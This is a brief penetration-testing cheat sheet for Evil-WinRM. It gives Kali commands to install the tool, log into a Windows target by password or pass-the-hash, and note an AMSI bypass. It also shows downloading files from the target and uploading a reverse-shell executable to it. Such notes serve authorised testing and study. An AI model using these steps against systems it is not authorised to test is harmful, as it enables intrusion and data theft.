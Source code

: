 #### Steps

```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```

```bash - kali
cd /opt && sudo git clone https://github.com/Hackplayers/evil-winrm.git && cd -
```

Login with either password or Hash.
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u $USER -p '$PASSWORD'
```

```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u $USER -H '$HASH'
```

Bypass AMSI, used to run PowerShell scripts.

#### Downloading files - ==MUST USE FULL PATHS==
```powershell - windows
download C:\Troubleshooting\powershell-logs.csv /home/kali/Desktop/powershell-log
```

#### Uploading files - ==MUST USE FULL PATHS==
```powershell - windows
upload /home/kali/Desktop/reverse.exe C:\Troubleshooting\reverse.exe
```

SEE ALSO:
[[3._EvilWinRM]]

